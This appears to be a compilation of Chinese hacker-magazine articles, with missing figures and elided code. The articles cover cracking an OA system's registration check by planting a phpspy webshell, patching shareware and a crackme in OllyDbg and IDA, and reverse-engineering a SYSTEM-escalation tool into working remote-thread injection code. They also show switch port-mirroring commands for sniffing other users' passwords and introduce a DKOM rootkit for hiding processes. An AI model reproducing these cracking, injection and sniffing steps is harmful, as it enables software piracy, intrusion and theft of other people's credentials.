第一节是提示注册码为空，而第二节如果成立（关键语句），则注册失败，否则第三节注册成功。因此这里要让关键语句不能通过，也就是 `check_register_code` 必须为真（前面还有一个“!”求反运算）。在 reg_submit.de.php 文件里可看到本文件包含三个文件：`/inc/php.php`、`/inc/utility.php`、`inc/reg_func.php`，用 DezenderGUI 逐一解密；并用写字板打开，查找 `check_register_code` 功能。在 reg_func.de.php 里可看到：`function check_register_code`：

```php
function check_register_code($REGISTER_CODE_STR)
{
    $MACHINE_CODE_STR = get_machine_code();
    $REGISTER_CODE_TDOA = rainbabyoa_get_register_code($MACHINE_CODE_STR);
    if($REGISTER_CODE_STR == $REGISTER_CODE_TDOA)
    {
        return 1;
    }
    else
    {
        return 0;
    }
}
```


图6

```php
if ($REGISTER_CODE=="") //输入的注册码不能为空
{
    message('注册失败','注册码不能为空');
    button_back();
    exit();
}
if (!check_register_code($REGISTER_CODE)) //这二句是关键语句
{
    message('注册失败','注册码错误');
    button_back();
    exit();
}
else
{
    register_oa($REGISTER_CODE);
}
```

其中 `$MACHINE_CODE_STR` 是我们在注册页面看到的机器码：`0a260917`。而为了使本功能返回 1，则必须使 `$REGISTER_CODE_STR == $REGISTER_CODE_TDOA`。此 `$REGISTER_CODE_STR` 是我们输入的注册码，因此，关键语句（黑体色）就是机器码（`$MACHINE_CODE_STR`）经过 `rainbabyoa_get_register_code` 运算后得到正确的注册码。而 `rainbabyoa_get_register_code` 功能代码就在 reg_func.de.php 的 `function check_register_code` 前面。

```php
function rainbabyoa_get_register_code($MACHINE_CODE_STR)
{
    $REGISTER_CODE_STR1 = md5($MACHINE_CODE_STR);
    $REGISTER_CODE_STR = md5($REGISTER_CODE_STR1);
    $I = 0;
    for (; $I < strlen($REGISTER_...)
    ...
}
```

```php
// rainbabyoa_get_register_code() 相关代码（图片中的代码块）
// 包含对 $STR 的处理、substr/strrev/str_replace、
// 最后 return $REGISTER_CODE_STR2;
```

（这是我的 OA 机器码），最后一句：`return $REGISTER_CODE` 改成：`printf($REGISTER_CODE);`（完整代码见完整的 php 代码.txt），点击“submit”，在当前页面出现：`92892928`（见图7）。这就是本 OA 系统的注册码，输入注册码，并点击“注册”，显示“注册成功”（见图8），再一次登录 OA 系统，不会再出现要求注册的页面，证明我们注册成功。


图7


图8

至此，整个注册过程就清楚了：机器码（0a260917）经过 `rainbabyoa_get_register_code` 功能的运算得到正确注册码，再与我们输入的注册码比对，如果一致就注册成功。

### 三、算出注册码

看到这么长的代码，有人可能会想到，这么长的代码要懂程序设计才能算出注册码吧。其实不然。我们有一个简单方法可得到注册码：拷贝一个 php 大马（我用的是 phpspy ver:2008）到 `D:\TTOA\webroot\inc` 目录下，登录 php 大马后，点击“Eval php code（运行php代码）”，将 `rainbabyoa_get_register_code` 功能全复制进去。头尾按 php 语句格式分别加上 `<?php`、`?>`，在前面添加我们机器码的变量赋值语句：`$MACHINE_CODE_STR="0a260917";`（这是我的 OA 机器码）……

我们利用 OA 系统的 php 环境，加上以注册码为变量的输入语句，最后加上输出结果语句，即可让 OA 系统自动算出我们所需要的 OA 注册码。

> （文中涉及的“相关代码”本期光盘已收录）

## 另类破解注册软件

沧海浮萍

软件的破解一直是一个不灭的话题，虽然从某种角度来说对于软件的破解是不正确的，但这里我们仅仅从技术交流的角度来考虑，技术只有在相互交流以及相互促进中才能发展。本文中将介绍一款共享软件的另类破解方法，破解所使用的技术仅用于技术交流，不得用于非法用途，同时笔者不会提供已经破解的软件。

共享软件的一个特点就是可以免费试用，但有的部分功能、使用时间或其他方面会有限制，本文中的软件则在启动的时候提示没有注册，提示界面如图1所示。

## 神秘园


按照常规的软件破解思路，首先我们要收集一下软件的信息。我在《黑客破解精通》一书中对软件的破解有详细的介绍，包括不同类型软件的不同破解方法。感兴趣的朋友可以到黑客X档案订购。我们收集的信息包括软件是否加壳、软件的语言类型、程序模块以及各种提示等等。用 PEID 查壳可以发现是 UPX 0.89.6 - 1.02 的壳，如图2所示，手工脱这类壳对我们来说已经是小儿科了。采用 ESP 定律即可顺利将其脱掉，脱壳后的程序可以正常运行，不需要修复。

至于脱壳的过程笔者在这里就不详细介绍了，不会的朋友可以参考《黑客破解精通》中的脱壳部分。脱壳后继续查看可以看到程序的编写语言是 Borland C++。软件运行的主界面如图3所示，是一款内存优化软件。在软件的目录下有一个文件叫 WinRamTurbo XP.ini，这个文件里面存放着我们的用户名以及注册码，所以按照常规，我们应该采用“基于 ini 文件的软件破解方法”，然而本文的题目是“另类”，所以我们这里就换一种方式。下面我们开始正式的破解工作。


运行软件，在注册的位置，如图4，任意填写我们的用户名与序列号“wangmin1944”“1234”，这时会弹出如图5所示的错误提示。既然有错误提示，我们就可以采用“字符串查找法”来进行破解。为了更加简便，我们将使用 F2 暂停法来追踪弹出提示的函数。将目标程序载入 OD 后运行程序，填写注册信息弹出错误提示以后，我们按 F12 暂停程序的运行。然后我们按 ALT+F9 执行到用户返回，此时程序将会被激活。我们点击提示中“确定”，将来到以下的代码位置。

```asm
00411040    50               PUSH EAX
00411041    68 5B574900      PUSH ...
...         ASCII "Registration invalid!"
00411046    8B45 C0          MOV EAX,DWORD PTR SS:[EBP-40]
00411049    E8 92BA0400      CALL ...
0041104E    50               PUSH EAX
0041104F    E8 F6C30700      CALL <JMP.&USER32.MessageBoxA>
00411054    FF4D E0          DEC DWORD PTR SS:[EBP-20]

以上就是提示的函数跟踪代码片段。
```

在这里我们就找到了错误的注册提示。下面要做的就是找到检测注册信息的关键位置，我们来到这段代码的段首，在段首的位置下断点，如图6所示。然后我们重新载入程序，运行程序，输入注册信息，此时将暂停在断点的位置，我们按 F8 单步向下执行。在单步执行的过程中我们会看到程序获取我们的输入信息，并来到如图7所示的代码位置。


这里就是将我们输入的注册信息写入到 WinRamTurbo XP.ini 文件的代码部分。在 `00410EC6 |. E8 FD-C6FFFF CALL Unpacked.0040D5C8` 这行代码的位置需要注意，这个 call 里面就是计算我们序列号的位置，里面有算法，这里笔者就不进去分析了，流程比较简单，感兴趣的读者可以尝试自己进去分析一下，这里给出笔者跟踪出的一个序列号：`2c7673a87850ef14b75066dd9e7b09c0`，对应的用户名是：`wangmin1944`。


这个 call 返回后会修改 EAX 寄存器的值，关键代码如下所示。错误的序列号使得 call 返回给 EAX 的值为 0，所以 `TEST EAX,EAX` 这条指令必将使得跳转指令 JE 执行，所以到这里的破解思路很简单了，就是修改这个跳转让它不跳往错误提示就可以了，修改如图8所示。此时我们在此填写注册信息时就会出现图9所示的提示信息，提示注册成功。


到这里实际上我们的破解工作还没有完成，因为当我们再次重新运行程序的时候还会弹出“未注册”的提示信息，这说明程序在开始运行时还要读取注册文件的内容并进行计算。软件的功能在注册的前后是没有影响的，因此我们要做的就是让它在启动的时候不显示“未注册”的启动画面，同时在关闭的时候也不显示提示画面。对于启动时出现的画面我们采用跟踪的方式。OD 载入目标程序后开始单步跟踪，直到启动画面出现位置，笔者这里跟踪的位置代码如下所示：


我们将 00401C65 处的跳转代码修改为 JMP 即可。保存修改完毕的程序，此时我们再次启动程序的时候启动提示窗口就不会出现了。

未注册的程序在关闭的时候会出现“请购买”的提示，如图10所示，下面我们就要去除这个 NAG 提示。


由于软件是在我们点击退出时才弹出“请购买”的提示窗口，因此我们需要跟踪的也就是程序将要退出时的常见退出 API：有 ExitProcess、exit、TerminateThread 等，这需要我们一次尝试。这里的目标软件使用的是 TerminateThread。因此我们下断点命令：`bp TerminateThread`。运行程序后，选择右键菜单的退出命令，这时候程序将暂停在如下。

## 神秘园

所示的代码位置：


很显然，这里已经不是用户代码区域了，已经进入了系统的 kernel32 核心区域。从代码中我们可以看出，这个函数实际上是调用了 ntdll.dll 模块中 ZwTerminateThread 函数。在其他的所有程序中，我们通过下 ZwTerminateThread 断点都可以拦截程序的退出工作。我们按 F8 单步运行走出这个模块，返回到了如下所示的用户区代码：


我们在该段的段首下断点，重新载入程序并运行，然后点击退出，此时程序暂停在该段首位置。我们采用 F8 单步跟踪，找到显示“请购买”的提示 call，代码位置如图 11 所示。我们将这个 call 用 NOP 替换掉即可。


到这里我们对这个程序的破解分析就基本上告一段落了。对于一个程序来说，分析它的各个模块之间的联系是最关键的。掌握了模块之间的联系，我们就能迅速地定位每个功能所对应的代码位置，不管是对于我们破解程序还是重新生成源代码来说都是十分有利的。软件的逆向分析在掌握了基础之后，个人感觉最重要的是练习。大量的练习你就会感觉到程序代码中的魅力，就会掌握更多的实战经验，这对以后的工作学习都是十分重要的。

（文章中所涉及到的软件已收录在光盘中）

## IDA挑战 crackme

沧海浮萍

IDA 这款软件相信大家都已经十分熟悉了，现在的版本应该是 5.5。我在这里把破解版直接给大家打包了。IDA 无论是在软件破解还是在软件分析中都有着十分重要的作用，尤其当你对 IDA 的使用了如指掌的时候，你就会发现，IDA 几乎可以做任何事情。本篇文章就通过使用 IDA 破解一个小的 crackme 来展示一下 IDA 的魅力。

这个 crackme 的破解十分简单，你几乎可采用 OD 瞬间将其爆破。我们来看一下在 IDA 的平台下可以怎样来做。由于目标软件是没有加壳的，所以这里就直接用 IDA 载入了。载入程序之后如图 1 所示。这里 IDA 已经为我们分析出了程序的入口点，从给出的入口点代码可以看出，这个程序是采用 VC 写的。程序运行之后要求输入序列号，我们在任意输入序列号之后出现了错误提示，如图 2 所示。既然有错误提示，我想大家已经考虑到应该采用什么方式进行破解了，一般来说采用的是字符串查找法。


我们点击菜单栏的“EDIT”，选择代码模式，如图 3 所示，此时 IDA 将会把我们带到这个 crackme 的代码位置，我们从代码的位置来分析这个程序。顺着代码的方向向下查看我们会找到一些关键的提示，部分代码如图 4 所示。


这几句代码就是这个 crackme 的关键所在了。通过 IDA 的提示我们可以看出，程序将两个字符串压入了堆栈，然后用一个 call，就是 lstrcmpA 对这两个字符串进行对比，然后通过 test eax, eax 检测对比的结果。如果结果不同则执行 jnz short loc_4015AD 这个跳转，从而弹出错误的提示。既然找到了关键所在，下面我们要做的就是修改这个跳转了，程序的跳转流程如图 10 所示。


在这里我们可以看到有正确的提示以及错误的提示，更好的一点就是 IDA 给出了这些提示是在哪里被调用的，DATA XREF 就是交叉调用的指示。其中 Incorrect try again! 这个错误提示的调用位置就是 401512+A2，我们顺着向前寻找这个代码位置。当然也可以采用更加直接的方式，在 XREF 上点击右键，选择跳转，如图 5 所示。此时就会弹出如图 6 所示的窗口，我们点击确定即可来到调用这些代码的位置。


来到的位置如图 7 所示，这里就是调用错误提示的位置。在代码的右边我们可以看到跳转过来的指向箭头，如图 8 所示，这个箭头的来源就是判断输入错误的地方。我们顺着箭头向上回溯，可以发现跳转的来源就在前面不远的地方，如图 9 所示。


我们下面就要在 IDA 中修改代码。选中要修改的代码 jnz，然后点击“Hex View”，如图 11 所示。此时将会来到……


图12


图13


图14


图11

HEX 模式下，同时会出现我们选中的代码所对应的 HEX 值，如图 12 所示。我们在 75 这个数值（即 jnz 的十六进制编码）处点击右键选择“EDIT”，如图 13 所示，此时 75 所在的位置就可编写了。我们将 5 修改为 4，就是对应的 jnz 修改为 jz，然后点击右键选择确认，如图 14 所示。这样我们就将代码修改完了。此时返回到反汇编模式我们可以看到原来的代码已经变成了下面的代码，说明我们修改成功了。然后点击保存即可实现更改，这样我们的破解工作就完成了。使用 IDA 破解软件虽然有时不如 OD 更为直观，但 IDA 对程序的分析却是 OD 所不能及的，尤其是在模块间的调用以及模块交叉。IDA 还有交叉参考视图的功能，这更为我们快速分析程序提供了更为强大的支持。很好地掌握 OD 以及 IDA 的使用，不仅在软件破解中能够起到事倍功半的效果，在其他的软件逆向分析以及漏洞挖掘中更会起到意想不到的作用。

> （文中涉及的“crackme、IDA 5.5”本期光盘已收录）

## 伪造函数参数逆向分析控制台程序

BaseNet

众所周知，Windows 平台的程序可以简单地分为图形界面程序（GUI）和控制台程序（Console），两者的分界线实际上是很模糊的。我们可以借助于 /entry 和 /subsystem 两个链接器参数指明其入口的启动函数和运行所需要的子系统环境……本文以 mt.exe 为例，通过逆向其 -su 参数的提权机制来熟悉控制台程序的逆向步骤。

### 一、脱壳

用 Peid 查壳提示什么都没找到，但是 EP 段是 UPX1，事实证明的确是 UPX，如图 1 所示。OD 载入，CTRL+F 搜索 popad，找到如图 2 的位置，在此位置 F2 下断，F9 运行程序，取消断点，直接 jmp 到 OEP，用 OD 自带的脱壳脚本脱壳。运行 Import REC 进行修复，如图 3 所示。不会吧，只有一个 C/C++ 运行时库在里面，显然通过工具自动查找 IAT 是不可以的。图中显示 RVA 为 29650 时，能找到 msvcrt.dll，那么此处一定是 IAT 的位置，只不过 IAT 未被找全而已。在 OD 命令窗口输入：dd 429650（加上基址 0x00400000），向上翻页，定位 IAT 的真实 RVA 在 2943c 的位置，如图 4 所示。在 Import REC 中将 RVA 修改为真实的 RVA 地址 2943c，大小填 1000（随便填，只要找全即可），直接单击“获取输入表”，如图 5 所示，IAT 获取成功，修复脱壳程序，正常运行，到这里准备工作完成。


图1


图2


图3


图4


图5

### 二、伪造参数实现动态跟踪 -su 参数下的代码

#### 2.1 分析函数

用 OD 载入脱壳修复后的程序，直接 F7 跟进第一层函数，依次跟进相应的函数，程序总是退出，定位代码如下：

位置：

```asm
0040219D  6A 00        push 0
0040219F  E8 ACB20100  call ...
<jmp.&msvcrt.exit>
```

exit() 是一个运行时库函数，当参数为 0 时表示正常退出。有汇编代码可知，程序是正常退出的，而不是异常。mt.exe 是命令行下的控制台程序，运行时需要手工输入参数，如果没有参数则显示帮助内容，因此在 OD 中看到的异常实际上是正常现象（exit 传参为 0）。知道原因后重新载入，手动伪造相应参数即可。

因为要分析 mt -su 参数的实现机制，mt -su filename 可以提升 filename 的权限为 system；如果不加 filename 则将 cmd.exe 提升为 system 权限。要理解 mt -su 机制，只需关注相关函数及功能。重新载入并跟进第一层函数，主函数参数必须为 2 且第二个参数为 -su，代码如下：

```asm
00401197  68 D0140000   push ...
0040119C  E8 77930100   call ...
<jmp.&kernel32.SetUnhandledExceptionFilter>
004011A1  83C4 0C       add esp,0C
004011A4  E8 6F920100   call ...
<jmp.&msvcrt._fpreset>
004011A9  E8 52FEFFFF   call 00401000
004011AE  E8 7DFEFFFF   call 00401030
004011B3  83EC 10       sub esp,10
004011B6  E8 55920100   call ...
<jmp.&msvcrt.__p__environ>
004011BB  8B15 04C04100 mov edx,dword ptr ds:[41C004]
004011C1  83C4 0C       add esp,0C
004011C4  8B08          mov ecx,dword ptr ds:[eax]
004011C6  A1 00C04100   mov eax,dword ptr ds:[41C000]
004011CB  51            push ecx
004011CC  52            push edx
```


当前 esp 指向的栈空间地址修改为 2 即可实现 `mt -su` 参数个数的伪造。在 OD 命令栏中输入 `dd [edx]`，此时为进程环境控制中的参数列表。随后在对应地址处修改参数内容，并按 little endian 方式写入内存；除参数字符串本体外，还需修正 `argv[]` 中相应指针项，使其指向新参数地址。


函数 `402e28` 有三个参数：`ecx`、`edx`、`eax`。通过 `dd 41c004`、`dd [edx]`、`dd ecx` 等可观察到：`eax` 对应 `argc`，`edx` 对应 `argv[]` 指针，`ecx` 对应系统环境变量区域。

### 三、逆向分析其机制

F7 跟进程序后，继续在关键分支处跟踪（文中省略了部分分析意义较小的语句），定位参数比较与分支跳转逻辑。


- `ecx` —— 系统环境变量（进入函数 `402e28` 后地址定位为 `ebp+0x10`）
- `edx` —— `argv[]`（进入函数 `402e28` 后地址定位为 `ebp+0x0c`）
- `eax` —— `argc`（进入函数 `402e28` 后地址定位为 `ebp+0x08`）

#### 2.2 伪造参数

有上面的分析，`eax` 为参数个数，且最后入栈，因此将其改写即可继续完成参数伪造过程。

```asm
00403397 50                push eax
00403398 E8 A3700100       call <jmp.&msvcrt._mbscpy>
...
004033B2 EB 68             jmp short ...
004033B4 8370 08 03        cmp dword ptr ...

（含注释：`cmd.exe /q`、`此函数前为提升system权限的关键call`、`如果有三个参数则进行写操作`等）
```

```asm
00408010 E8 3E240100       call <jmp.&msvcrt.strlen>
...
00408041 E8 5A240100       call <jmp.&msvcrt.memcpy>
...
00408053 E8 08240100       call <jmp.&msvcrt.strlen>
...
00408069 0395 DCDFFFFF     add ...

（含注释：`保存字符数`、`调用内存复制`、`计算CMD /Q的长度`、`dest的起始地址/结束地址`等）
```

上面可知 mt.exe -su 参数的整体源码框架如下：

```c
int main(int argc,char *argv[])
{
    if (stricmp(argv[1],"-su")==0)
    {
        if (argc==2)
        {
            // 提升cmd.exe的权限为system
        }

        if (argc==3)
        {
            // 提升argv[2]的权限为system，argv[2]为第三方PE文件的字符串
        }
    }
}
```

F4 执行到 call 40829c 处，F7 跟进。如图 10 所示的入口代码，熟悉的 SeDebugPrivilege 出现了，显然 404458 处的函数即为令牌修改函数。继续 F8 单步走到如图 11 的位置。407FCC 是这个程序的最关键 call，OD 中会提示我们 ASCII 码——“inject failed”，看来程序用的是注入技术，跟进此 call，单步到如下位置：

```c
// 字符串加密功能
```


```asm
0040806F 52                push edx
00408070 8B45 0C           mov eax,dword ptr ss:[ebp+C]
00408073 50                push eax
...                        （此处入栈）
00408074 E8 43FEFFFF       call 00407EBC
...                        （加密 cmd /Q）
00408079 83C4 10           add esp,10
```

```asm
004080F1 6A 00             push 0
004080F3 8B45 F4           mov eax,dword ptr ss:[ebp-C]
004080F6 50                push eax
004080F7 E8 D4240100       call <kernel32.VirtualAllocEx>
...                        （在 services.exe 进程中分配内存）
00408143 E8 90240100       call <kernel32.WriteProcessMemory>
...                        （将线程函数写入内存）
00408173 6A 00             push 0
00408175 6A 00             push 0
00408177 6A 00             push 0
00408179 8B45 E8           mov eax,dword ptr ss:[ebp-18]
0040817C 50                push eax
```

此处有一个函数 407EBC，进入后发现是加密 cmd.exe /Q，算法很简单，字符串结合数组元素的序号与 0x5F（即 `^`）进行 xor 运算，相当于 C++ 代码中的 `var ^= '^';`。这语句看了是不是很开心，作者加密的原因应该是考虑到了对敏感字符保护，防止将内存中的 cmd.exe /Q 定位为特征码。继续走到如下代码处：

```asm
00408091 8B45 08           mov eax,dword ptr ss:[ebp+8]
00408094 50                push eax
00408095 E8 36C0FFFF       call 004046D0
0040809A 83C4 10           add esp,10
0040809D 8945 EC           mov dword ptr ss:[ebp-14],eax
...                        （-14=4046d0()=398）
```

又出来一个手写函数，此处的函数用于枚举系统进程获得 services.exe 系统进程的 PID。这是如何得出的呢？首先看函数的参数，如图 12 所示。此时栈空间为字符串 services，返回值 eax 的内容为 0x398，我们用 hex2dec 将十六进制转换成十进制，再查看系统的进程 PID 就可以知道了，如图 13 所示。进入函数你会发现 EnumProcess()，即 mt.exe 是通过 EnumProcess() 来枚举进程的，而并没有使用 Toolhelp 系列函数。接下来的东西只要分析程序调用的 API 函数即可熟悉 mt.exe 使用的进程注入技术。

| 地址 | 数值 | 注释 |
|---|---|---|
| 0022DDD8 | 004080E3 | ASCII "services" |
| 0022DDDC | 0022E00B |  |
| 0022DDE0 | 00000000 |  |
| 0022DDE4 | 00000000 |  |

图12

```text
[root@Windows /]# hex2dec 0x398
Hex2dec - converts hex to decimal and vice versa
...
0x398 = 920

[root@Windows /]# ...
[System Process] 0
System 4
smss.exe 804
csrss.exe 852
winlogon.exe 876
services.exe 920
lsass.exe 932
svchost.exe 1092
...
```

图13

```asm
004080AE E8 9D240100       call <kernel32.OpenProcess>
...                        （获得 services.exe 的进程句柄）
004080E3 6A 40             push 40
004080E5 68 00000000       push 1000
004080EA 8B85 DCFDFFFF     mov eax,dword ptr ss:[ebp-2024]
004080F0 50                push eax
```

```asm
0040817D  6A 00        push 0
0040817F  6A 00        push 0
00408181  8B45 F4      mov eax, dword ptr ss:[ebp-C]
00408184  50           push eax
00408185  E8 56240000  call <jmp.&kernel32.CreateRemoteThread>
...
004081B4  83C4 F8      add esp, -8
004081B7  6A FF        push -1
004081B9  8B45 F0      mov eax, dword ptr ss:[ebp-10]
004081BC  50           push eax
004081BD  E8 26240000  call <jmp.&kernel32.WaitForSingleObject>
```

```cpp
HANDLE hsnap = NULL;
PROCESSENTRY32 pe32 = {0};
pe32.dwSize = sizeof(pe32);

if ((NULL == (hsnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)))) {
    return 0;
}

for (BOOL b_con = Process32First(hsnap, &pe32); b_con != FALSE; b_con = Process32Next(hsnap, &pe32)) {
    if (lstrcmpi("notepad.exe", pe32.szExeFile) == 0) {
        CloseHandle(hsnap);
        return pe32.th32ProcessID;
    }
}
CloseHandle(hsnap);
return 0;

// 让本地进程得到 SE_DEBUG_NAME 权限
BOOL EnableDebugPriv(VOID) {
    HANDLE htoken = NULL;
    TOKEN_PRIVILEGES tp = {0};
    LUID luid = {0};
    ...
}
```

线程函数的内容即为 `memcpy()` 中的内容，可以在内存中直接反汇编该部分内存的代码。由上面的 API 调用可知，`mt.exe -su` 的原理就是通过一个系统进程运行一个 exe 文件，因为系统进程的权限为 system，所以它运行的 exe 文件也是 system 权限。详细步骤就是一个非 DLL 远程进程注入程序，即将线程函数直接写入 system 权限的进程，从而继承 system 权限（有关提升 system 权限的方法，请参考以前黑X的文章），具体的步骤如下：

- 1. 通过 `OpenProcessToken()`、`LookupPrivilegeValue()`、`AdjustTokenPrivileges()` 来获得打开系统进程的权限。
- 2. 通过 `EnumProcess()` 枚举系统进程，获取 `services.exe` 的进程 PID，调用 `OpenProcess()` 获得其句柄。
- 3. 通过 `VirtualAllocEx()` 在 `services.exe` 的进程空间中分配内存，然后调用 `WriteProcessMemory()` 将线程函数写入，再调用 `CreateRemoteThread()` 远程创建线程，最后通过 `WaitForSingleObject()` 等待远程线程内核对象返回。

### 四、根据逆向原理编写代码

知道了原理操作起来也就简单了，下面是以注入 notepad.exe 为例的直接写线程函数的注入代码。

```cpp
// 获取 notepad.exe 的 PID
DWORD GetNotepadPid(VOID)
```

```c
return FALSE;
}

tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
tp.Privileges[0].Luid.HighPart = luid.HighPart;
tp.Privileges[0].Luid.LowPart = luid.LowPart;
if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL)) {
    CloseHandle(hToken);
    return FALSE;
}
CloseHandle(hToken);
return TRUE;
}

// 注入程序
BOOL inject(char *sufile)
{
    HANDLE hpro = NULL;
    data mydata = {0};
    LPVOID lpdata = NULL; // 指向远程线程函数地址的参数地址
    LPVOID lpbase = NULL; // 指向 CreateRemoteThread() 的远程线程函数地址
    HANDLE hthread = NULL;

    if (!EnableDebugPriv()) // 给本地进程加载 SE_DEBUG_NAME 特权
    {
        return FALSE;
    }

    if (NULL == (hpro = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetNotepadPid()))) // 获取 notepad.exe 的进程权限
    {
        return FALSE;
    }

    // 在 notepad.exe 的进程地址空间分配一个页大小的内存，内存可保留可提交
    if (NULL == (lpbase = VirtualAllocEx(hpro, NULL, 1024*4, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)))
```

```c
{
    return FALSE;
}

// 将线程函数写入到 notepad.exe 的进程中
if (!WriteProcessMemory(hpro, lpbase, &threadFunc, 1024*4, NULL))
{
    return FALSE;
}

/* 将进程函数需要的数据写入到远程线程中 */
strcpy(mydata.pe, sufile);
HMODULE msvcrt = LoadLibrary("msvcrt.dll");
mydata.funcaddr = (DWORD)GetProcAddress(msvcrt, "system");

if (NULL == (lpdata = VirtualAllocEx(hpro, NULL, sizeof(mydata), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)))
{
    return FALSE;
}

if (!WriteProcessMemory(hpro, lpdata, &mydata, sizeof(mydata), NULL))
{
    return FALSE;
}

// 创建线程函数
if (NULL == (hthread = CreateRemoteThread(hpro, NULL, 0, (LPTHREAD_START_ROUTINE)lpbase, lpdata, 0, NULL)))
{
    return FALSE;
}

CloseHandle(hpro);
return TRUE;
}
```

另外需要注意，其一，上面的代码只是为了演示 mt -su 参数使用的注入机制；其二，Vista 以后因为 Windows 引入了 Session 0 隔离的机制，因此以上提升 system 权限的方法无效。到这里，菜鸟的一次逆向之旅就结束了，愿与更多黑 X 的朋友交流技术，论坛 ID: BaseNet。

## 密码绝检令

## ——交换机端口映射技术应用

在当前信息化社会，无纸化办公已是大势所趋。在单位里，电子邮箱、FTP服务器、OA系统、电子审批系统等，均成为工作中必不可少的工具。其中，个人密码的保护至关重要。为了加强密码安全，很多单位都明确规定：密码长度必须在多位数以上（如10位数）；密码中必须包含特定字符（如“#”、“&”等）；密码隔一段时间必须修改；个人电脑必须安装指定的杀毒软件和防火墙；等等。

应该说，这些措施已经足够完善了，密码的安全性看上去已无懈可击。但是，事实并非如此。采用如下提到的交换机端口映射技术，再结合嗅探工具，再强大的密码我们也能够轻松拿到。


### 一、数据嗅探原理简介

首先，我们对数据嗅探原理做下简单介绍。在由共享 HUB 组成的局域网中，如图1。当机器A访问外部网络时，机器A首先将数据发送至 HUB，此时 HUB 会将数据发送至所有端口，该 HUB 所连机器的所有网卡均能接收到该数据。

正常情况下，若机器发现数据头的目的 MAC 与自己不同，则将该数据包丢弃。然而，若其中一台机器B开启了嗅探程序，则嗅探程序会将网卡设置为“混杂模式”。此时，在机器B运行的嗅探程序即能够接收到整个 HUB 内的数据信息了。


以电子邮件为例，当机器A收发电子邮件时，正在机器B上运行的嗅探程序（此处使用 CommView）将会捕获到邮件传送过程中的全部信息。其中，我们能够清楚地看到该邮箱密码为331029，如图2所示。

### 二、嗅探破解存在的问题

在当前的局域网中，共享式 HUB 已经很少采用，组网设备主要为功能更为强大的二层交换机。典型组网拓扑如下图：


二层交换机能够记录机器 MAC 地址与端口的对应关系，当交换机从某个端口收到一个数据包，它会读取包头中的目的 MAC 地址，并在地址表中查找相应的端口；之后，交换机会将数据包发送至与该目的 MAC 地址对应的端口。这样，其它端口将不会接收到该数据包，嗅探破解密码完全失效。

在图3中，当机器A与外部网络通信时（如收发邮件），机器B将无法截获任何数据。

### 三、交换机端口映射技术

在二层交换机局域网中，如何获取我们需要的密码呢？在此，就用到了交换机端口映射技术。所谓端口映射，就是通过命令设置，将某端口（如端口A）数据流量全部在指定端口（如端口B）进行复制，从而在B端口上能够监测到A端口全部收发数据报文。如图3所示，在交换机A上做如下命令（此处以华为公司交换机为例）：

```text
port mirroring Ethernet 0/0/1 both Ethernet 0/0/24
```

此时，交换机A的1端口（连接机器A的端口）的数据报文将全部映射至其24端口。

在交换机B上做如下命令：

```text
port monitor Ethernet 0/0/2

port mirroring Ethernet 0/0/24 both Ethernet 0/0/2
```

此时，交换机B的2端口（连接机器B的端口）被设定为监测端口；同时，其24端口的数据报文将全部映射至2端口。此时，机器B能够监测到机器A所有的收发数据报文。


图4：机器A与邮件服务器通信报文

如图4所示，当机器A收发电子邮件时，在机器B上运行的嗅探程序将会截获全部报文。经过测试，电子邮件、FTP服务、电子审批系统等，均为明文传输。

端口映射作为交换机一项特性，主要是在故障处理时进行报文分析，以更准确地进行定位。然而借助于这项技术，我们可以轻松获得所需要的密码。即使我们不在对方局域网内，但只要我们能够接入其上层网络设备，即可通过端口映射抓取报文，从而得到用户密码等重要数据。

### 四、密码安全防护措施

密码对于个人的重要性不言而喻，但无论多么强壮的密码，在端口映射及嗅探破解面前可谓不堪一击。那么，如何才能做好保护好我们的密码呢？需主要做好以下3点：

- 1. 做好网络设备的登录管理，尤其是远程与本地管理密码，需定期修改；非工作人员严禁登录网络设备。
- 2. 严格控制登录账号的权限，如 `port mirroring`、`port monitor` 等命令，均需设置为最高权限账号才可以配置；且设置监察员定期对设备巡检，非经审批上述命令不允许配置。
- 3. 对于重要的电子审批系统，其密码采用密文传输。如 QQ、MSN 由于采用了密文传输，其密码安全性即得到了很大提升。


本文是《消失的进程——通过挂钩SSDT隐藏进程》一文的姊妹篇，讨论比挂钩SSDT更强的通过DKOM技术隐藏进程的方法。在写文章的时候，我假设读者已经对 Windows 系统的驱动程序编写有基本的了解。所谓 DKOM，即 Direct Kernel Object Manipulation，可译为直接内核对象操作，是 Rootkit 技术的一个方面。首先有必要对“内核对象”这个词做一点粗略的解释。简而言之，这里的“对象”二字基本等价于“结构”。内核对象，是微软公司在描述 Windows 内核相关的数据结构时采用的词（即英语 Object）。特别要注意的一点是，这和“类的实例”等面向对象编程概念没有什么关系。

在明晰了内核对象的含义之后，接着描述一下 DKOM 的概念。什么是 DKOM 呢？具体来说，DKOM 就是通过定位并直接修改内核中用于存储信息的内核对象以达到 Rootkit 一般目的的技术。操作系统将许多信息以特定的结构保存在内核空间内存中。

举个例子，Windows 系统在内核中使用特定的内核对象表示活动进程，通过 DKOM 技术，我们可以修改这些内核对象，进而达到隐藏进程的目的。本文讨论的便是这个过程的细节。

DKOM 是很强大的技术，通过它可以对系统做出广泛的修改，而且这些修改往往都很难检测。之前讨论过的挂钩SSDT的方法，因为直接修改了系统表，所以某些反 Rootkit 程序可以发现系统表被修改了，进而检测出 Rootkit 的存在，因为任何合法的程序都不会更改 SSDT；可通过 DKOM 技术，我们将直接修改内存中记账的内核对象，反 Rootkit 多对此无能为力。但是，DKOM 也不是万能的。关于这点我们以后再谈。此外要了解的一点是，发掘 DKOM 新技术会遇到很大的阻力——在修改内核之前我们首先必须知道内核对象都有什么，他们的结构定义是什么，他们是如何被系统操作的一系列细节。可惜，上述大多数必要信息都……

是无文档可查的，只能通过逆向等方法去发掘，这是高手的工作。虽说如此，使用已知的 DKOM 技术却是很简单的。如果了解挂钩SSDT技术是读者对脚本小子身份的一次尝试性地突破；那么在了解 DKOM 后，就算基本脱离了脚本小子的行列了。

以上就是对 DKOM 技术的一个简单概括，下面我们将首先作一番纯技术性的说明，之后，通过我为本文编写的一个较为实用的 Rootkit 范例来进一步讨论解决编程中面临的种种问题。要强调的一点是，以下所进行的讨论都是基于 Windows XP SP3 系统的。要知道，Rootkit 技术同操作系统的版本有着密切的联系。

